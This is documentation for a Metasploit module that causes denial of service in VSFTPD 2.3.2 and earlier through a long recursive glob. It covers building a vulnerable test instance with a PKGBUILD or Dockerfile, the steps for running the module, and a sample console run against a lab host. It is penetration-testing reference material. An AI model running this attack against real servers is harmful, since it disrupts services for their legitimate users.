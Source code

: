 ## Vulnerable Application

This is an auxiliary for DOSing a VSFTPD server from version 2.3.3 and below. The
vulnerability has been directly tested on versions 2.3.0, 2.3.1, and 2.3.2 and have
shown success.

VSFTPD is a popular ftp server written in C. The vulnerability causes a DOS on
the service by leveraging a long recursive glob statement on the server. When
we fill the 4096 character buffer with this recursive glob search, it makes the
current thread spend all of that time unwinding that glob statement which can
use up all the resources on that core. Sending this glob on all threads leave no
availability for anyone else to access the server while taking up all of the CPU
resources of the machine.

## Options

+---------+----------------------------------------------+
| FTPUSER | The username used to log into the FTP server |
+---------+----------------------------------------------+
| FTPPASS | The password used to log into the FTP server |
+---------+----------------------------------------------+

### Install on Arch Linux

The software has been tested on multiple versions using arch linux. To create an
installable package for the vulnerable software to test, follow these instructions.

1. Clone the source repository using `git clone https://gitlab.archlinux.org/archlinux/packaging/packages/vsftpd.git`
2. Replace the contents of the PKGBUILD with this

```pkgbuild
pkgname=vsftpd
pkgver=2.3.2
pkgrel=1
pkgdesc='Very Secure FTP daemon'
url='https://security.appspot.com/vsftpd.html'
arch=('x86_64')
license=('GPL2')
depends=('glibc' 'openssl' 'libcap' 'pam' 'libnsl')
optdepends=('logrotate')
backup=('etc/vsftpd.conf'
        'etc/xinetd.d/vsftpd'
        "etc/logrotate.d/vsftpd")
source=(https://security.appspot.com/downloads/${pkgname}-${pkgver}.tar.gz
        vsftpd-ssl.socket
        vsftpd.socket
        vsftpd.service
        vsftpd@.service
        vsftpd-ssl.service
        vsftpd-ssl@.service)
sha256sums=('SKIP'
            'd5185e48fffc6253499a55e0fe0f90a3424fc639640af11a9d38df33fb145afe'
            '9fdbfd2ec0207170371ca3cf2b0ddca2dc2fe3d062e5792e0d3e51474c3198c9'
            '0597e571718ba0f4dc4b32a4ddd148103758c48c7d65dcb8bbedafc9e810e83d'
            'd7b8e4827d4f6bafcbf52f9d2d7380958c7b08bb3f757806aa89d4bc06c9671c'
            'b88a50fc68b3bf746d13c9a777df77791cd3eac6eb7c2df655418071c2adf422'
            '4a55c2468b08d858f71bacf1f4885847bec8e548b0e92088068d9bdd3884af84')

prepare() {
  cd ${pkgname}-${pkgver}
  # build-time config
  sed -e 's|^#undef VSF_BUILD_SSL$|#define VSF_BUILD_SSL|' -i builddefs.h
  sed -e 's|/usr/share/empty|/var/empty|g' -i tunables.c vsftpd.conf.5 INSTALL
  sed -e 's|/usr/local/sbin/vsftpd|/usr/bin/vsftpd|' -i EXAMPLE/INTERNET_SITE/${pkgname}.xinetd

  # fix linking to openssl 1.1
  sed -e 's|SSL_library_init|SSL_CTX_new|' -i vsf_findlibs.sh
}

build() {
  cd ${pkgname}-${pkgver}
  make LINK='' CFLAGS="${CFLAGS} ${CPPFLAGS}" LDFLAGS="${LDFLAGS}"
}

package() {
  cd ${pkgname}-${pkgver}

  install -Dm 755 ${pkgname} -t "${pkgdir}/usr/bin"
  install -dm 755 "${pkgdir}/var/empty"
  install -Dm 644 "${srcdir}"/{*.service,*.socket} -t "${pkgdir}/usr/lib/systemd/system"

  install -Dm 644 ${pkgname}.conf -t "${pkgdir}/etc"
  install -Dm 644 EXAMPLE/INTERNET_SITE/${pkgname}.xinetd "${pkgdir}/etc/xinetd.d/${pkgname}"
  install -Dm 644 RedHat/vsftpd.log "${pkgdir}/etc/logrotate.d/${pkgname}"
  install -Dm 644 RedHat/vsftpd.pam "${pkgdir}/etc/pam.d/${pkgname}"

  install -Dm 644 ${pkgname}.8 -t "${pkgdir}/usr/share/man/man8"
  install -Dm 644 ${pkgname}.conf.5 -t "${pkgdir}/usr/share/man/man5"
  install -Dm 644 BENCHMARKS BUGS Changelog FAQ INSTALL README README.ssl REFS \
    REWARD SPEED TODO TUNING -t "${pkgdir}/usr/share/doc/${pkgname}"
}
```

3. If you want to test a different version, Change the version variable to your
desired version.
4. Run `makepkg -i` to build the package and automatically install it.
5. Start the systemd service with `sudo systemctl start vsftpd`

### Docker install on Arch Linux

A simple container was created to easily test this vulnerability. To easily run a
vulnerable instance of this application, build this image from this Dockerfile.

1. Create a `Dockerfile` and place the content below into it

```dockerfile
FROM archlinux:latest
ARG VERSION=2.3.2
RUN pacman -Sy --noconfirm gcc make libnsl
RUN curl -O https://security.appspot.com/downloads/vsftpd-$VERSION.tar.gz
RUN tar zxf vsftpd-$VERSION.tar.gz
WORKDIR /vsftpd-$VERSION
RUN make
RUN mkdir -p /usr/share/empty/
RUN chmod +x /vsftpd-$VERSION/vsftpd
RUN mv /vsftpd-$VERSION/vsftpd /bin/vsftpd
RUN mv /vsftpd-$VERSION/vsftpd.conf /etc/vsftpd.conf
RUN chown root:root /etc/vsftpd.conf
EXPOSE 21
CMD [ "/bin/vsftpd" ]
```

2. Run `sudo docker build . -t vsftpd:2.3.2 --build-arg=2.3.2`
3. Run `sudo docker run --name vsftpd -p 21:21 vsftpd:2.3.2`

Run the module against this container and the container will either slow down or crash entirely.

## Verification Steps

1. Start `msfconsole`
2. `use auxiliary/dos/ftp/vstfpd_232`
3. `set rhosts`
4. `set ftpuser`
5. `set ftppass`
6. `run`

## Scenarios

### VSFTPD 2.3.2 - Arch linux

```
msf6 > use auxiliary/dos/ftp/vsftpd_232
msf6 auxiliary(dos/ftp/vstfpd_232) > set rhosts 192.168.56.106
rhosts => 192.168.56.106
msf6 auxiliary(dos/ftp/vstfpd_232) > set ftpuser anonymous
ftpuser => anonymous
msf6 auxiliary(dos/ftp/vstfpd_232) > set ftppass ''
ftppass => 
msf6 auxiliary(dos/ftp/vstfpd_232) > run
[*] Running module against 192.168.56.106

[*] 192.168.56.106:21 - sending payload
.............................................................................................
[+] 192.168.56.106:21 - Stream was cut off abruptly. Appears DOS attack succeeded.
[*] Auxiliary module execution completed
```

You can verify that it works by either attempting to ftp into the machine after or checking
htop on the machine. If the CPU is at max capacity, that would be due to the DOS.
